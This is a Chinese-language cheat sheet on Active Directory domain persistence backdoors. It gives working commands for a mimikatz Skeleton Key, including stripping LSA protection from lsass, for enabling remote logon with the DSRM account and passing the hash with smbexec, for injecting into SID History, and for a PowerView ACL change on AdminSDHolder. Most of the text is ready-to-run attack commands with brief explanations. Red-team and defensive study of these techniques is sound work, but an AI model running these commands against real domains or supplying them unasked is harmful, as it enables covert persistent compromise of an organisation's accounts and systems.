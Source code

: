 # 域后门

#### Skeleton key后门

* 通过在域控制器上安装万能钥匙，所有的域用户账户都可以使用一个相同的密码进行认证，同时原有密码仍然有效

在域控制器上利用mimikatz安装万能钥匙

```
mimikatz.exe "privilege::debug" "misc::skeleton" exit
```

2014年微软添加了LSA(本地安全机构)保护策略用来防止对Isass进程的内存读取和代码注入，可以开启和关闭LSa保护 开启LSA保护策略

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 1 /f
```

关闭LSA保护策略

```
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL 
```

mimikatz绕LSA安装Skeleton(需要mimikatz项目中存在mimidrv.sys)，成功利用后可使用密码mimikatz远程连接

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
```

#### DSRM域后门

**关于DSRM**

* 目录服务还原模式，是域控制器的安全模式启动选择，用于服务器脱机，以进行紧急维护
* 初期安装DC时会要求设置DSRM的管理员密码

通过DC上运行NTDSUtil，可以为DSRM账户修改密码

```
ntdsutil
set dsrm password
reset password on server null
<设置密码>
<确认密码>
q
q
```

**mimikatz读取DSRM账户实现DSRM远程登录**

mimikatz读取hash,RID:000001f4(500)

```
mimikatz.exe "privilege==debug" "token==elevate" "lsadump::sam" exit
```

修改DSRM账户登录模式，以允许远程登录，可以通过修改注册表DsrmAdminLogonBehavior键值实现，其中0为默认值，只有当域控制器重启进入DSRM模式时，才能使用DSRM账号，1为本地AD、DS服务停止时才可以使用DSRM管理员账户登录，2为任何时候，都可以使用

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v DsrmAdminLogonBehavior /t REG_DWORD /d 2 /f
```

利用hash传递获取交互

```
python3 smbexec.py -hashes :a8f33bee89eba84d289ab51248f1534b Administrator@192.168.0.104
```

#### SID History

**关于SID**

* Windows系统中SID是指安全标识符，为用户、用户组、其他安全主体唯一不可变标识符
* ACL使用SID来唯一标识用户及其组成员身份，授予或拒绝对资源的访问和特权
* 当用户请求访问资源时，会生成访问令牌，其中包含用户和组SID和用户权限级别
* SID History是一个支持域迁移方案的属性，使得一个账户的访问权限可以有效地克隆到另外一个账户

**SID History利用**

\-测试人员可以将域管理员用户的SID添加到其它域用户的SID History属性，以此建立一个隐蔽的域后门

在DC上，mimikatz > 2.1.0

```
mimikatz.exe "privilege::debug" "sid::patch" "sid:add /sam:lbwnb /new:Administrator" exit
```

在DC上，mimikatz < 2.1.0

```
mimikatz.exe "privilege::debug" "misc:addsid Hacker ADSAdministrator" exit
```

#### AdminSDHolder域后门

**关于AdminSDHolder**

* 是一个特殊的Active Directory容器对象，位于Domain NC的System容器下
* AdminSDHolder通常作为系统中某些受保护对象的安全模板
* 受保护对象通常包括系统的特权用户和组，如administrator、Domain Admins、Enterprise Admins等
* 在活动目录中，属性adminCount用来标记特权用户和组，该属性值被设置为1
* 默认情况下系统定期(60分钟)检查受保护对象的安全描述符，将受保护对象的ACL与AdminSDHolder容器的ACL容器进行比较，如果不一致将会将保护对象的ACL强制改为AdminSDHolder容器的ACL，该工作通过SDProp进程来完成。

枚举受保护用户

```
Adfind.exe -b "dc=hack-my,dc=com" -f "&(objectcategory=person)(samaccountname=*)(admincount=1)" -dn
```

枚举受保护组

```
Adfind.exe -b "dc=hack-my,dc=com" -f "&(objectcategory=group)(samaccountname=*)(admincount=1)" -dn
```

**AdminSDHolder利用**

* 通过篡改AdminSDHolder容器的ACL配置，当系统调用SDProp进程执行相关工作时，被篡改的ACL配置将同步到受保护对象的ACL中，以此建立一个后门

使用PowerView.ps1脚本向AdminSDHolder容器对象添加一个ACL，使普通用户lbwnb拥有对AdminSDHolder的完全控制权限

```
Import-Module .\PowerView.ps1
Add-DomainObjectAcl -TargetsearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=hack-my,DC=com" -PrincipalIdent lbwnb -Rights All -Verbose
```

清除复原

```
Import-Module .\PowerView.ps1
Remove-DomainObjectAcl -TargetsearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=hack-my,DC=com" -PrincipalIdent lbwnb -Rights All -Verbose
```

#### HOOK PasswordChangeNotify

**关于PasswordChangeNotify**

* 官方文档名称为PsamPasswordNotificationRoutine，为Windows APi
* 当用户重置密码时，Windows会先检查密码是否符合复杂性要求，如果密码符合要求，LSA会调用PAsswordChangeNotify函数在系统中同步密码

```
PSAM_PASSWORD_NOTIFICATION_ROUTINE PsamPasswordNotificationRoutine;

NTSTATUS PsamPasswordNotificationRoutine(
  [in] PUNICODE_STRING UserName,
  [in] ULONG RelativeId,
  [in] PUNICODE_STRING NewPassword
)
{...}
```

**HOOK劫持PasswordChangeNotify函数**

https://github.com/3gstudent/Hook-PasswordChangeNotify
